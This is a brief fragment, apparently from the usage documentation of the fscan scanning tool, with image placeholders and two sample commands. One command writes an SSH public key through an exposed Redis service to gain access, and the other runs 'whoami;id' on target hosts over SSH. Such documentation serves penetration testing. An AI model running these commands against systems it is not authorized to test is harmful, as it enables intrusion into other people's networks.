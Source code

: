 
![](image/4.png)

`fscan.exe -h 192.168.x.x -rf id_rsa.pub (redis 写公钥)`
![](image/2.png)

`fscan.exe -h 192.168.x.x -c "whoami;id" (ssh 命令)`